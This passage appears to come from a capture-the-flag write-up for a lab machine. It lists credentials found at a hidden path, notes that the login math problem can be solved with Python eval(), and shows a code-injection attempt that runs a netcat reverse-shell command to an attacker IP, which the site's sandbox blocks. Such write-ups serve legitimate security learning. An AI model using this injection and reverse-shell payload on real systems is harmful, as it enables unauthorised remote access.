 So the `/zbir7mn240soxhicso2z` gave us these Credentials :

```
Username: steve
Password: bvbkukHAeVxtjjVH
```

## Login

Login requires to solve a math problem, using python `eval()` you can solve it

![image]( /assets/img/pylington/2.PNG)

## Playing with code

I tried to spawn a reverse shell using :

```python
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```
But the website detected my malicious code
And gave me this message :  `H4CK3R AL3R7!!! Malicious program detected by the sandbox`
